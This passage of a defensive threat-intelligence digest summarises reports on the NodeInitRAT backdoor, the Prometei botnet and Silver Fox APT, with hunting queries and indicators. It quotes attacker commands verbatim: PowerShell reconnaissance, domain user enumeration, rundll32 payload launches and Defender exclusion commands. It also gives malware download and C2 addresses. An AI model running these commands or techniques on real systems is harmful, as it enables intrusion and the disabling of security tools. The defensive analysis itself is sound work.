        *   Execution of `nltest`, `net.exe`, and `setspn.exe` to gather information on domain controllers, domain trusts, enumerate domain admin accounts, and Service Principal Names.
        *   Discovery of the affected system’s system information.
        *   Discovery of local network neighbors using ARP.
        *   Enumeration of currently executing processes and services.
        *   `powershell.exe -c Get-Service`: A specific PowerShell command to list running services.
        *   A comprehensive PowerShell command for reconnaissance: `powershell.exe -c "chcp 65001 > $null 2>&1 ; echo 'version: 000010' ; if ([Security.Principal.WindowsIdentity]::GetCurrent().Name -match '(?i)SYSTEM') { 'Runas: System' } elseif (([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) { 'Runas: Admin' } else { 'Runas: User' } ; systeminfo ; echo '=-=-=-=-=-' ; tasklist /svc ; echo '=-=-=-=-=-' ; Get-Service | Select-Object -Property Name, DisplayName | Format-List ; echo '=-=-=-=-=-' ; Get-PSDrive -PSProvider FileSystem | Format-Table ; echo '=-=-=-=-=-' ; arp -a"`. This multi-stage command determines the user's privilege level, collects detailed system information, lists running tasks and their associated services, enumerates all services with their names and display names, lists available file system drives, and displays the ARP table.
*   **Command and Control (C2) Communication**: NodeInitRAT communicates with adversary-controlled servers over HTTP. These communications frequently traverse Cloudflare tunnels, acting as intermediary infrastructure, and typically involve HTTP POST requests to a URL path ending in `/init1234`.
*   **Arbitrary Command Execution**: The backdoor can issue arbitrary commands on the compromised system.
    *   **Observed Arbitrary Command**: `cmd.exe /d /s /c "net user %USERNAME% /domain"`. This executes the `net user` command via `cmd.exe` to enumerate domain users.
*   **Payload Deployment**: NodeInitRAT is capable of deploying additional EXE, DLL, and JS payloads onto affected systems.
    *   **Observed Payload Deployment**:
        *   Files matching the pattern `C:\Users\[redacted]\AppData\Roaming\[a-z0-9]{8}.log` (where the extension may vary by file type, but JS files are sometimes renamed to `.log`) are used to download and execute arbitrary EXE, DLL, CMD, and JS files.
        *   `rundll32.exe C:\Users\[redacted]\AppData\Roaming\[a-z0-9]{8}.dll,start`: This command is used to deploy subsequent DLL payloads and execute them via `rundll32.exe`, a common technique for executing malicious DLLs.
*   **Data Exfiltration/Protection**: Data transferred between NodeInitRAT and its C2 is minimized and protected from cursory inspection using XOR encoding and GZIP compression.

### Industries
The provided sources do not specify any particular targeted industries.

### Recommendations
To defend against Mocha Manakin activity and its associated NodeInitRAT backdoor, a multi-layered approach focusing on prevention, detection, and response is crucial:

**Mitigating Initial Access (Paste and Run)**:
*   **Policy Enforcement**: Consider implementing Group Policy Objects (GPOs) to disable Windows hotkeys such as Windows+R or Windows+X. While this can prevent the typical execution method of paste and run lures, it's acknowledged that this feature is popular among users and may not be widely adopted due to usability impact.
*   **User Education**: Conduct comprehensive employee education and awareness campaigns to inform users about social engineering tactics used in paste and run lures. This should include highlighting the dangers of pasting commands from untrusted sources, even if prompted by seemingly legitimate prompts (e.g., "Fix" buttons or CAPTCHAs). Empower users to recognize and report suspicious activity rather than blindly following instructions.

**Mitigating NodeInitRAT Payload Execution and Persistence**:
*   **Process Termination**: If NodeInitRAT activity is detected, immediately stop any `node.exe` processes that are observed executing the malware.
*   **File Deletion**: Remove persistent copies of the NodeInitRAT code from disk. These files typically follow the path pattern `\AppData\Roaming\[a-z0-9]{8}.log`. Additionally, if NodeInitRAT has deployed other files like DLLs or EXEs, ensure these are also removed from disk.
*   **Registry Key Removal**: Delete any established Windows Registry run keys used for persistence (e.g., `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\ChromeUpdater`).

**Network-Level Mitigation**:
*   **C2 Blocking**:
    *   Identify and sinkhole any domains discovered in NodeInitRAT command lines to prevent the backdoor from communicating with its command and control (C2) servers.
    *   Add any IP addresses referenced in NodeInitRAT command lines to firewall rules to block outbound communication.
    *   Be aware that NodeInitRAT frequently utilizes `trycloudflare[.]com` domains, which are part of a legitimate Cloudflare tunnel service. While blocking the entire domain might be overly broad, specific subdomains or patterns should be investigated and potentially blocked or closely monitored.

### Hunting methods

**1. PowerShell using `invoke-expression` and `invoke-restmethod` to download content at a remote IP address**
*   **Logic Explanation**: This analytic targets initial access activity where PowerShell is used to download and immediately execute scripts from remote IP addresses. Adversaries, including Mocha Manakin, often employ `Invoke-RestMethod` (`irm`) or `Invoke-WebRequest` (`iwr`) to download remotely hosted scripts and then `Invoke-Expression` (`iex`) to execute them. The inclusion of `IP address` in the command line (e.g., `138.199.156[.]22:8080`) is a key indicator for this specific detection. It's crucial to exclude approved IP addresses (e.g., from legitimate utilities like Chocolatey or Chef) to reduce false positives.
*   **Pseudo-detection Analytic**:
    ```
    process == ('powershell') && deobfuscated_command_includes ('irm' || 'invoke-restmethod') && deobfuscated_command_includes ('iex' || 'invoke-expression') && deobfuscated_command_includes (IP address) && deobfuscated_command_excludes (approved IP address)
    ```
    *   *Example (Conceptual KQL)*:
        ```kql
        DeviceProcessEvents
        | where FileName == "powershell.exe"
        | where ProcessCommandLine has_any ("irm", "invoke-restmethod")
        | where ProcessCommandLine has_any ("iex", "invoke-expression")
        | where ProcessCommandLine matches regex @"\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}(:\d+)?\b" // Detects IP address pattern
        | where not (ProcessCommandLine has_any ("<approved_ip_1>", "<approved_ip_2>")) // Exclude known legitimate IPs
        ```

**2. NodeJS, `node.exe`, spawning the Command Processor, `cmd.exe`, to add a registry key**
*   **Logic Explanation**: This analytic specifically targets the persistence mechanism employed by NodeInitRAT. While it is normal for `node.exe` to spawn `cmd.exe` for various legitimate operations, the act of `cmd.exe` being spawned by `node.exe` and then attempting to add or modify a "run" key in the Windows Registry is highly suspicious. This indicates an attempt by a NodeJS-based RAT to establish persistence on the system.
*   **Pseudo-detection Analytic**:
    ```
    parent_process == ('node.exe') && process == ('cmd') && deobfuscated_command_includes ('reg add' || 'run')
    ```
    *   *Example (Conceptual KQL)*:
        ```kql
        DeviceProcessEvents
        | where InitiatingProcessFileName == "node.exe"
        | where FileName == "cmd.exe"
        | where ProcessCommandLine has_all ("reg add", "run")
        ```

These analytics provide a strong starting point for threat hunters to identify potential Mocha Manakin activity in their environments. Regular review and tuning, including adding specific `approved IP address` exclusions, are essential for effective deployment.

### IOC
**Domains**
```
pub-motorola-viking-charger[.]trycloudflare[.]com
pilot-agent-false-taken[.]trycloudflare[.]com
trycloudflare[.]com
```
**IPs**
```
138.199.156[.]22:8080
```
**File Paths/Names**
```
C:\Users\<user>\AppData\Local\Temp\downloaded.zip
C:\Users\[redacted]\AppData\Roaming\node-v22.11.0-win-x64\node.exe
C:\Users\[redacted]\AppData\Roaming\node-v22.11.0-win-x64\2fbjs1z6.log
\AppData\Roaming\[a-z0-9]{8}.log
C:\Users\[redacted]\AppData\Roaming\[a-z0-9]{8}.dll
```
**Registry Key**
```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\ChromeUpdater
```

**Original link:** [https://redcanary.com/blog/threat-intelligence/mocha-manakin-nodejs-backdoor/](https://redcanary.com/blog/threat-intelligence/mocha-manakin-nodejs-backdoor/)

## Resurgence of the Prometei Botnet
### Summary
The Prometei botnet and its associated malware family have seen a significant resurgence in activity, particularly targeting Linux systems, starting in March 2025. Initially identified in July 2020 with a focus on Windows, the Linux variant gained prominence in December 2020, with the latest activity highlighting new and evolved variants.

Prometei is primarily driven by **financial gain**, with its main objective being **cryptocurrency mining, specifically Monero**. Beyond mining, it also possesses capabilities for **credential theft and deploying additional malware payloads**. The threat actors behind Prometei are continuously developing the malware, integrating new modules, methods, and a backdoor to facilitate a wide range of malicious activities. A key characteristic of Prometei is its **adaptive and resilient nature**, achieved through the use of a **Domain Generation Algorithm (DGA)** for dynamic Command-and-Control (C2) communication and **self-updating features** that enable stealth and evasion against security defenses. Its modular architecture further enhances its adaptability, allowing for independent updates or replacements of specific functionalities without disrupting the entire botnet. There is no evidence currently linking Prometei's operations to nation-state actors.

### Technical Details
Prometei operates as a sophisticated malware family with both Linux and Windows variants, though the recent observed resurgence heavily focuses on the Linux version. The malware grants attackers **remote control over compromised systems**, primarily for illicit Monero cryptocurrency mining, but also extends to **credential theft and deploying secondary malware payloads**. The newest iterations of Prometei include a **backdoor**, significantly expanding the range of malicious actions it can perform on infected machines.

One of Prometei's core operational strengths lies in its **resilient Command-and-Control (C2) infrastructure**, which relies on a **Domain Generation Algorithm (DGA)**. This technique allows the malware to dynamically generate domain names, ensuring that communication with C2 servers remains uninterrupted even if certain domains are blocked. Coupled with **self-updating capabilities**, Prometei can continuously evolve, adapt to new security defenses, and deliver fresh payloads while maintaining a low profile and evading detection.

The botnet has a documented history of exploiting various vulnerabilities to achieve initial compromise and subsequent **lateral movement** within networks. Common techniques include:
*   **Brute-forcing credentials** to gain unauthorized access.
*   Leveraging the infamous **EternalBlue exploit**, widely associated with the WannaCry ransomware, to target Windows systems.
*   Exploiting **Server Message Block (SMB) protocol flaws** to spread across networked devices.

Prometei is built with a **modular architecture**, meaning it comprises independent components, each tasked with a specific function. This design is crucial for its adaptability, as individual modules can be updated or replaced without affecting the overall functionality of the botnet. The sources identify specific modules responsible for:
*   **Brute-forcing administrator credentials**.
*   **Exploiting vulnerabilities**.
*   **Mining cryptocurrency**.
*   **Stealing data**.
*   **Communicating with C2 servers**.

The botnet's operations typically proceed through a defined multi-stage process:
1.  **Initial Exploitation:** Gaining initial access to a target system.
2.  **Payload Delivery:** Delivering the malicious Prometei executable to the compromised system.
3.  **Lateral Movement:** Spreading within the network to infect additional systems.
4.  **Cryptocurrency Mining:** Activating its primary function of Monero mining.
5.  **Data Stealing:** Executing its secondary objective of exfiltrating credentials or other sensitive data.
6.  **C2 Communication:** Establishing and maintaining communication with the C2 servers for command execution and data exfiltration.

Malware distribution is primarily facilitated via **HTTP GET requests**. A specific example observed is `hxxp[://]103.41.204[.]104/k.php?a=x86_64`. A slight variation, `hxxp[://]103.41.204[.]104/k.php?a=x86_64,<PARENT_ID>`, allows attackers to dynamically assign a `ParentID` to the malware sample. This distribution URL is not geographically restricted and delivers a randomized configuration with each sample. The server hosting this distribution point is identified as an Apache PHP server running on a Windows platform, with its IPv4 address belonging to Infinys Network (ASN: 58397) in Jakarta, Indonesia.

Notably, the newer Prometei malware versions, first observed in March 2025, are **packed using Ultimate Packer for eXecutables (UPX)**. This is a departure from version two (released in 2021), which did not employ UPX. UPX compression reduces the executable size and adds a layer of difficulty for analysis. Despite the file being named `k.php`, it is not a PHP script, which is a tactic used to disguise its true nature, similar to version two's use of `uplugplay`. The malware itself is a **64-bit Executable and Linkable Format (ELF) file**, confirming its design for Linux-based systems. Upon execution, the UPX-packed executable decompresses itself in memory, then proceeds to execute the malicious payload.

Static analysis of these UPX-packed Prometei samples is complicated because the standard UPX tool (`upx -d`) fails to decompress them. This failure occurs because Prometei appends a **custom configuration JSON trailer** to the malware, which disrupts the UPX tool's reliance on specific metadata like the `PackHeader` and `overlay_offset` trailer for proper decompression. To successfully unpack the sample for analysis, this custom **JSON configuration trailer must first be stripped** from the file. After unpacking, for the malware to function correctly during dynamic analysis or re-execution, this configuration JSON **must be re-attached** to the sample file.

The malware includes a subroutine dedicated to searching for and parsing this configuration JSON trailer. A comparison of supported fields in the configuration JSON trailer across versions shows significant evolution:
*   **Version 2** had an unspecified set of fields.
*   **Versions 3 and 4** include fields such as `config`, `id`, `enckey`, `ParentId`, `ParentHostname`, `ParentIp`, and `ip`.

Another integral subroutine within the malware is responsible for **collecting detailed system information** from compromised hosts. This gathered intelligence includes:
*   **Processor information** (extracted from `/proc/cpuinfo`).
*   **Motherboard information** (obtained using the `dmidecode --type baseboard` command).
*   **Operating system information** (retrieved from `/etc/os-release` or `/etc/redhat-release`).
*   **System uptime** (determined via the `uptime` command).
*   **Kernel information** (acquired using the `uname -a` command).

This collected system information is then submitted via an **HTTP GET request to the C2 server** located at `hxxp://152.36.128[.]18/cgi-bin/p.cgi`.

### Countries
The server used for malware distribution is located in **Jakarta, Indonesia**. There is no information available regarding specific targeted victim countries, as the distribution URL is not restricted by geographic location.

### Industries
The provided sources do not specify any particular industries targeted by the Prometei botnet.

### Recommendations
Organizations should implement robust security measures and remain vigilant against evolving threats like Prometei. Key recommendations include:
*   **Proactively adapt defenses** to counter the continuous evolution of malware like Prometei.
*   Utilize **Advanced WildFire** machine-learning models and analysis techniques, which have been reviewed and updated based on the latest Prometei Indicators of Compromise (IoCs).
*   Leverage **Advanced Threat Prevention** with its built-in machine learning-based detection capabilities to identify exploits in real-time.
*   Deploy **Cortex XDR and Cortex XSIAM** to prevent the execution of both known and unknown malicious malware through Behavioral Threat Protection and machine learning-based local analysis.
*   Utilize **Advanced URL Filtering and Advanced DNS Security** to identify and block known malicious domains and URLs associated with Prometei activity.
*   For suspected compromises or urgent matters, **contact incident response teams** such as Unit 42 Incident Response.

### Hunting methods
A primary detection method identified for the new Prometei botnet malware family is a **YARA rule**.
*   **YARA Rule Logic:** This rule should be designed to identify the presence of both **UPX packing** and the **custom configuration JSON trailer** within a file. Specifically, it would look for the UPX magic constant (`55 50 58 21` or `UPX!`) at the beginning of the file, which signifies UPX compression. In conjunction with this, the rule would incorporate patterns or strings uniquely associated with the custom configuration JSON that is appended to the malware, such as common keys (`config`, `id`, `enckey`, `ParentId`, etc.) or the distinct JSON structure (`"config":1,`). The combination of these two elements provides a highly effective and specific signature for detecting these Prometei variants.

### IOC
**Hashes**
```
46cf75d7440c30cbfd101dd396bb18dc3ea0b9fe475eb80c4545868aab5c578c
cc7ab872ed9c25d4346b4c58c5ef8ea48c2d7b256f20fe2f0912572208df5c1a
205c2a562bb393a13265c8300f5f7e46d3a1aabe057cb0b53d8df92958500867
656fa59c4acf841dcc3db2e91c1088daa72f99b468d035ff79d31a8f47d320ef
67279be56080b958b04a0f220c6244ea4725f34aa58cf46e5161cfa0af0a3fb0
7a027fae1d7460fc5fccaf8bed95e9b28167023efcbb410f638c5416c6af53ff
87f5e41cbc5a7b3f2862fed3f9458cd083979dfce45877643ef68f4c2c48777e
b1d893c8a65094349f9033773a845137e9a1b4fa9b1f57bdb57755a2a2dcb708
d21c878dcc169961bebda6e7712b46adf5ec3818cc9469debf1534ffa8d74fb7
d4566c778c2c35e6162a8e65bb297c3522dd481946b81baffc15bb7d7a4fe531
```
**Domains**
```
103.41.204.104
152.36.128.18
```

**Original link:** [https://unit42.paloaltonetworks.com/prometei-botnet-2025-activity/](https://unit42.paloaltonetworks.com/prometei-botnet-2025-activity/)

## Silver Fox APT Targets Public Sector via Trojanized Medical Software
### Summary
**Silver Fox**, also known by its aliases **Void Arachne** or **The Great Thief of Valley**, is a sophisticated **China-based Advanced Persistent Threat (APT) group** that has been active since at least **2024**. This group is widely believed to be **state-sponsored**, indicating a high level of organization and backing, and its primary objectives revolve around **cyber espionage and data theft**. In some observed instances, they also engage in **financially motivated intrusions**.

The targets of Silver Fox APT are broad, encompassing **individual users as well as organizations** across various sensitive sectors, including **healthcare, government, and critical infrastructure**. Their campaigns are characterized by the deployment of a custom remote access trojan (RAT) known as **Winos 4.0**, which is also referred to as **ValleyRAT**. This RAT is derived from the well-known legacy Gh0st RAT malware family, suggesting a foundational understanding of established malware functionalities.

Recent confirmed campaigns by Silver Fox APT demonstrate a particular focus on **healthcare delivery organizations (HDOs)** and the broader **public sector**. A key modus operandi involves the **trojanization of legitimate medical software** and the extensive use of **cloud infrastructure**, specifically **Alibaba Object Storage Service (OSS)**, for hosting and delivering their malicious payloads. The overarching goal of these sophisticated multi-stage attacks is to establish persistent remote access, disable endpoint security controls like antivirus (AV) software, and facilitate the exfiltration of sensitive data. Initial infection vectors commonly include **SEO poisoning and phishing attacks**, alongside the weaponization of legitimate software installers.

### Technical Details
Silver Fox APT campaigns follow a meticulously crafted, multi-stage infection chain designed to maximize stealth, achieve deep system compromise, and maintain long-term persistence. This section details the tactics, techniques, and procedures (TTPs) observed, focusing on the tools, commands, and evasion methods employed.

**Stage 1: Initial Infection, Dropper, and Payload Staging**
The initial compromise is often initiated through highly targeted vectors:
*   **Spear-Phishing Lures:** In one confirmed campaign, the group impersonated **Taiwan’s National Taxation Bureau**, distributing ZIP files containing a malicious **DLL, specifically `lastbld2Base.dll`**. Execution of this DLL launched shellcode designed to download **Winos 4.0 (ValleyRAT)** from a remote server, granting unauthorized access to Taiwanese government and industrial systems. Another notable campaign, **“Operation Holding Hands,”** targeted organizations in Japan and Taiwan using **digitally-signed fake salary notices**. These payloads, signed with stolen certificates, leveraged **COM-based loaders** to deploy Winos 4.0 directly in memory, establishing persistent remote access.
*   **Backdoored Software Installers:** Silver Fox distributes **backdoored installers** for popular applications such as **Google Chrome, various VPN clients (e.g., LetsVPN, QuickVPN), and AI tools (e.g., deepfake generators, voice changers)**. These installers deliver the **Winos backdoor silently** while simultaneously installing the legitimate software, making detection challenging. The group utilizes **SEO poisoning, malicious advertisements, and Telegram channels** to drive user traffic to these compromised installers, preying on demand for specific software or censorship bypass tools.
*   **Trojanized Legitimate Applications:** A key entry point for the group is the weaponization of trusted software, including **Philips DICOM medical viewers, EmEditor, and system driver utilities**. These applications are frequently used by healthcare professionals and IT administrators. A confirmed case involved a trojanized executable named **`MediaViewerLauncher.exe`**, which mimicked the Philips DICOM viewer. This executable functioned as the **first-stage loader**, initiating the entire malware chain.

Upon initial execution, the malware contacts an **Alibaba Cloud Object Storage (OSS) bucket**, which serves as the attacker’s primary **payload repository**. The first file retrieved is **`i.dat`**, a critical **configuration file** containing encrypted metadata, including **URLs for subsequent stage components** and **encrypted filenames** used for disguise. Based on `i.dat`, the dropper downloads multiple second-stage payloads from Alibaba Cloud, disguised as benign image or data files: **`a.gif`, `b.gif`, `c.gif`, `d.gif`, `s.jpeg`, and `s.dat`**. These files contain encrypted binaries and shellcode that serve as foundational building blocks for later stages.

The decrypted components and their functions are vital for understanding the attack:
*   **`a.gif`** decrypts to **`vseamps.exe`**: A benign Cyren AV executable that is used as a legitimate DLL host.
*   **`b.gif`** decrypts to **`vselog.dll`**: A malicious DLL designed for injection.
*   **`c.gif`** decrypts to **`WordPadFilter.db`**: Auxiliary configuration or data.
*   **`d.gif`** decrypts to **`MsMpList.dat`**: Contains logic for security software enumeration.
*   **`s.dat`** decrypts to **`189atohci.sys`**: The **TrueSightKiller driver**, used to disable antivirus/EDR solutions.
*   **`s.jpeg`** decrypts to **Shellcode**: Executes in memory to unpack the primary loader DLL.

During this initial stage, **parallel processes** are initiated to prepare the environment for further compromise:
*   **System Reconnaissance:** The malware executes a series of **native Windows commands** to assess system properties and verify external network connectivity, essential for C2 communication. Observed commands include:
    *   `cmd.exe`
    *   `ping.exe`
    *   `find.exe`
    *   `ipconfig.exe`
    *   `conhost.exe`
*   **Antivirus Evasion (Windows Defender Exclusions):** To reduce detection risk, the malware issues **PowerShell commands** to configure **Windows Defender exclusion rules** for directories commonly used to stage payloads. Two sets of observed exclusions are:
    *   `Add-MpPreference -ExclusionPath 'C:\ProgramData','C:\Users\Public' -Force`
    *   `Add-MpPreference -ExclusionPath 'C:\','C:\ProgramData','C:\Users','C:\Program Files (x86)' -Force`
*   **Persistence (Task Scheduler):** **Windows Task Scheduler entries** are created to ensure the automatic execution of the second stage. These tasks are configured to **launch immediately and re-execute at every user login**, guaranteeing persistence across reboots.

**Stage 2: AV Kill and Loader Preparation**
Following the first stage, the second-stage malware focuses on **disabling endpoint security defenses** and preparing the host for full compromise.
*   **Shellcode Execution and Loader:** The **shellcode from `s.jpeg` is executed directly in memory**. This shellcode loads essential Windows API functions such as `GetProcAddress`, `VirtualAlloc`, and `RtlMoveMemory` to unpack a malicious DLL crucial for task scheduling.
*   **RPC-Based Task Creation:** The malware loads **RPC libraries (`RPCRT4.dll`)** to initiate a named pipe binding via `\\.\pipe\atsvc`. This enables **Remote Procedure Call (RPC)-based task creation**, leveraging a legitimate mechanism for persistence. This task is configured to run **`TO7RUF.exe`**, which is a renamed version of the benign Cyren AV executable (`vseamps.exe`), ensuring persistent execution of the loader component immediately and at every user login.
*   **Advanced Evasion Techniques:** To thwart detection and analysis, the malware employs several sophisticated techniques:
    *   **API Hashing and Indirect Resolution:** Used to **obfuscate function calls**, making static analysis more difficult.
    *   **Thread Notification Suppression (`DisableThreadLibraryCalls`):** Complicates debugging and dynamic analysis by hindering thread library notifications.
    *   **Bypassing Static AV Monitoring:** Achieved by using **digitally signed binaries** and **RPC-based scheduling**, which can appear legitimate to some security solutions.
*   **Security Software Enumeration and Disabling:** The loader references **`MsMpList.dat`** to **enumerate running security processes**. It loads and executes **`vselog.dll`**, then decrypts auxiliary files (`WordPadFilter.db` and `MsMpList.dat`) into memory using `WriteProcessMemory`. If common security products like **Windows Defender (`MsMpEng.exe`)** or **NIS (`NisSrv.exe`)** are detected, the malware initiates a **Bring Your Own Vulnerable Driver (BYOVD)** attack. It loads **`189atohci.sys` (TrueSightKiller)**, a known vulnerable driver, to gain privileged access. Using **`DeviceIoControl`** with the specific **IOCTL `0x22e044`**, it then **forcibly terminates AV/EDR processes**, effectively disabling endpoint monitoring and allowing for silent, undetected operation.

**Stage 3: ValleyRAT Deployment and Payload Expansion**
The final stage focuses on establishing long-term command and control and deploying additional malicious capabilities:
*   **ValleyRAT Deployment:** The malware decrypts `s.jpeg` into the **ValleyRAT Loader**, which then executes the **ValleyRAT Trojan (Winos 4.0)**. ValleyRAT immediately establishes its backdoor communication channel and begins staging further modules.
*   **ValleyRAT Persistence:** ValleyRAT ensures its persistence on the infected system by creating **scheduled tasks** that automatically relaunch it, even after system reboots.
*   **Module Download:** The malware contacts the **Alibaba Cloud bucket** again to download encrypted module files: **`FOM-50.jpg`, `FOM-51.jpg`, `FOM-52.jpg`, and `FOM-53.jpg`**.
*   **Module Decryption and Unpacking:** These downloaded modules are decrypted and unpacked into their functional components:
    *   **`F.DAT`**: A configuration module for the deployed payloads.
    *   **`OKSave.exe`**: A modified loader, notably derived from an Internet Explorer uninstaller.
    *   **`tbcore3U.dll`**: A DLL responsible for decrypting and loading scripts.
    *   **`log.src`**: The **keylogger payload**, which silently records user keystrokes and saves logs to a local file, typically `C:\xxxx.in`.
    *   **`utils.vcxproj`**: The **cryptominer payload**, designed to hijack the victim’s CPU/GPU resources for **Monero mining**, operating silently in background processes and potentially impacting system performance.

**Parallel Execution of Final Payloads:**
*   **ValleyRAT Trojan Launch:** Establishes a **remote access channel** and connects to its C2 server at **`8.217.60[.]40:8917`**. It then awaits and downloads further commands or modules as needed.
*   **Keylogger Deployment:** Begins capturing **user keystrokes**, potentially harvesting login credentials, sensitive data, and private communications.
*   **Cryptominer Operation:** Silently runs in the background, utilizing the victim's system resources to mine digital currency for the attackers.

All three core components—the backdoor, keylogger, and cryptominer—are engineered for **persistence and operate without user awareness**, maximizing the attacker's long-term control and financial gain from the compromised system.

### Countries
*   **Taiwan**
*   **Japan**
*   **China** (origin of the APT group)

### Industries
*   **Public Sector**
*   **Healthcare Delivery Organizations (HDOs)**
*   **Government**
*   **Critical Infrastructure**
*   **Industrial Systems** (specifically referenced in Taiwan)

### Recommendations
To effectively defend against Silver Fox APT, organizations must adopt a multi-layered security approach focusing on prevention, detection, and rapid response:

*   **Enhanced Endpoint Visibility and Control:**
    *   **Deploy EDR/XDR tools** that are capable of detecting memory-based execution, PowerShell abuse, and the creation of unauthorized scheduled tasks.
    *   **Enable comprehensive PowerShell logging** to capture command-line arguments and script blocks, which can help in early detection of evasion techniques.
    *   **Implement strict application control and allowlisting** to restrict software installations, only permitting trusted applications from verified sources.
*   **Strengthen Gateway and Cloud Security:**
    *   **Enhance email and web security solutions** to filter malicious attachments, block known malicious domains, and meticulously inspect downloads, especially from cloud services like **Alibaba OSS**.
*   **Proactive Threat Hunting and Monitoring:**
    *   Continuously **monitor for behavioral anomalies**, such as the creation of unusual scheduled tasks, unexpected network traffic to unfamiliar IP addresses, and unauthorized file modifications in commonly excluded directories (e.g., `C:\ProgramData` or `C:\Users\Public`).
    *   **Block known vulnerable drivers** to prevent BYOVD (Bring Your Own Vulnerable Driver) attacks.
*   **Network Segmentation and Least Privilege:**
    *   **Segment networks** to logically isolate critical assets and sensitive data from general user endpoints, limiting lateral movement in case of a breach.
    *   Apply **least privilege principles** across all systems and accounts, and disable unnecessary remote protocols to further restrict an attacker's reach.
*   **Incident Readiness and Validation:**
    *   Ensure robust **incident readiness** with centralized logging, capabilities for memory capture and analysis, and well-defined response playbooks tailored for multi-stage and memory-resident threats.
    *   **Regularly stay updated with threat intelligence feeds** specific to APT groups and frequently **test the effectiveness of existing security controls**. Platforms such as the Picus Security Validation Platform can simulate Silver Fox APT behaviors, including network and email infiltration, to identify detection gaps proactively.

### Hunting Methods
While the sources do not provide explicit Yara, Sigma, KQL, SPL, IDS/IPS, or WAF rules, they offer critical insights into the TTPs that can be used to inform the development of such detection mechanisms. The **Picus Security Validation Platform** is highlighted for its capability to simulate Silver Fox APT’s techniques, which provides a strong basis for developing custom hunting queries and rules:
*   **Loading trojanized binaries:** Monitor for suspicious processes launching from unexpected locations or masquerading as legitimate software (e.g., `MediaViewerLauncher.exe`, `lastbld2Base.dll`).
*   **Disabling AV processes via vulnerable drivers:** Hunt for the loading of unsigned or suspicious drivers (e.g., `189atohci.sys` - TrueSightKiller) and subsequent `DeviceIoControl` calls with specific IOCTLs (e.g., `0x22e044`) targeting security products (`MsMpEng.exe`, `NisSrv.exe`).
*   **Executing fileless shellcode in memory:** Look for anomalous memory allocations, process injections, or execution of shellcode (e.g., from `s.jpeg`) without corresponding disk artifacts. EDRs with behavioral analysis capabilities are crucial here.
*   **Exfiltrating data through HTTPS:** Monitor for unusual outbound HTTPS traffic patterns, especially to known suspicious IPs or domains (though specific exfiltration domains are not provided in this source).

Based on the technical details provided, here are key areas for building hunting queries:
*   **PowerShell Execution:** Look for `powershell.exe` command-line arguments containing `Add-MpPreference -ExclusionPath` targeting common system directories like `'C:\ProgramData'`, `'C:\Users\Public'`, `'C:\'`, `'C:\Users'`, `'C:\Program Files (x86)'`.
*   **Scheduled Task Creation:** Monitor for `schtasks.exe` commands or direct API calls that create new tasks for persistence, especially those set to run immediately or at user login, launching suspicious executables (e.g., `TO7RUF.exe` or `vseamps.exe`).
*   **Process Creation/Execution:** Detect execution of native Windows tools (`cmd.exe`, `ping.exe`, `find.exe`, `ipconfig.exe`, `conhost.exe`) by unusual parent processes or in unusual contexts.
*   **Network Connections:** Identify connections to **Alibaba Cloud OSS buckets** (for `i.dat`, `a.gif`, `b.gif`, `c.gif`, `d.gif`, `s.jpeg`, `s.dat`, `FOM-50.jpg`, `FOM-51.jpg`, `FOM-52.jpg`, `FOM-53.jpg`) and the known C2 IP address `8.217.60[.]40` on port `8917`.
*   **File Activity:** Monitor for the creation of specific malicious filenames in unexpected directories (e.g., `C:\xxxx.in` for the keylogger logs) or decryption of disguised files (`.gif`, `.jpeg` files becoming executables or DLLs).

The **Picus Threat Library** provides specific threat IDs that can be used within the Picus Security Validation Platform to emulate Silver Fox APT TTPs for validation purposes:
*   **Threat ID 43634**: "Silver Fox Threat Group Campaign Malware Download Threat" (simulates network infiltration).
*   **Threat ID 36544**: "Silver Fox Threat Group Campaign Malware Email Threat" (simulates email infiltration).

### IOC
**Hashes**
```
7102e9a86b47b65aeebc1bef98abe0928388f122af98eb62bf61622a42303f67
```
**IP Addresses**
```
8.217.60[.]40
```
**C2 Server and Port**
```
8.217.60[.]40:8917
```
**Filenames/Paths (Observed in operations)**
```
MediaViewerLauncher.exe
lastbld2Base.dll
i.dat
a.gif
b.gif
c.gif
d.gif
s.jpeg
s.dat
vseamps.exe
vselog.dll
WordPadFilter.db
MsMpList.dat
189atohci.sys
TO7RUF.exe
FOM-50.jpg
FOM-51.jpg
FOM-52.jpg
FOM-53.jpg
F.DAT
OKSave.exe
tbcore3U.dll
log.src
utils.vcxproj
C:\xxxx.in
```
**Targeted Processes (for AV/EDR termination)**
```
MsMpEng.exe
NisSrv.exe
```

**Original link:** [https://www.picussecurity.com/resource/blog/silver-fox-apt-targets-public-sector-via-trojanized-medical-software](https://www.picussecurity.com/resource/blog/silver-fox-apt-targets-public-sector-via-trojanized-medical-software)